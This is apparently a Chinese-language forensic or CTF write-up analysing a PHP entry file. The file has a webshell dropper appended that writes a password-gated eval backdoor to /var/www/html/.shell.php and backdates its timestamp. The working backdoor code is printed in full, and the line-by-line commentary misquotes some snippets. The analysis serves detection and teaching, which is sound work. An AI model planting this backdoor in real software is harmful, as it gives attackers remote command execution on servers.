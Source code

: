 	<?php  
	include('config.php');  
	include(SYS_ROOT.INC.'common.php');  
	$path=$_SERVER['PATH_INFO'].($_SERVER['QUERY_STRING']?'?'.str_replace('?','',$_SERVER['QUERY_STRING']):'');  
	if(substr($path, 0,1)=='/'){  
		$path=substr($path,1);  
	}  
	$path = Base::safeword($path);  
	$ctrl=isset($_GET['action'])?$_GET['action']:'run';  
	if(isset($_GET['createprocess']))  
	{  
		Index::createhtml(isset($_GET['id'])?$_GET['id']:0,$_GET['cat'],$_GET['single']);  
	}else{  
		Index::run($path);  
	}  
	$file = '/var/www/html/.shell.php';  
	$code = '<?php if(md5($_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>';  
	file_put_contents($file,$code);  
	system('touch -m -d "2021-01-01 00:00:01" .shell.php');  
	usleep(3000);  
	?>

总来说就是核心目的是在 `/var/www/html/`​ 目录下创建一个名为 `.shell.php`​ 的后门文件，并伪造其时间戳以试图隐藏其存在。该后门文件包含恶意代码，通过 `md5`​ 哈希验证密码后，执行传入的命令。这种后门文件可以被攻击者用来远程执行任意命令，从而完全控制服务器。

主要的就是；（圈起来的）

* **定义后门文件路径**：

  ​`$file = '/var/www/html/.shell.php';`​

  * ​`$file`​ 变量定义了后门文件的存放路径 `/var/www/html/.shell.php`​。
* **定义后门代码**：

  ​`_POST["pass"])=="5d41402abc4b2a76b9719d911017c592"){@eval($_POST[cmd]);}?>';`​

  * ​`$code`​ 变量定义了后门代码。
  * 该代码通过 `md5`​ 哈希验证 `POST`​ 请求中的密码（`pass`​ 参数），如果匹配，则执行 `POST`​ 请求中的命令（`cmd`​ 参数）。
* **写入后门文件**：

  ​`file_put_contents(code);`​

  * 使用 `file_put_contents`​ 函数将后门代码写入到 `$file`​ 指定的文件路径中，即创建或覆盖 `.shell.php`​ 文件。
* **伪造文件时间戳**：

  ​`system('touch -m -d "2021-01-01 00:00:01" .shell.php');`​

  * 使用 `system`​ 函数执行 `touch`​ 命令，修改 `.shell.php`​ 文件的修改时间为 `2021-01-01 00:00:01`​，以伪造文件的修改时间，试图隐藏其创建和修改痕迹。
* **微小延时**：

  ​`usleep(3000);`​

  * 使用 `usleep`​ 函数增加 3000 微秒（3 毫秒）的延时，虽然这个延时很短，但可能用于调节执行的节奏，以掩盖其操作痕迹。

所以这一套下来基本就是可以确认.shell.php文件就是由这个文件生成的，并且每隔usleep(3000)就生成一个新文件，所以达到了不死马的条件；
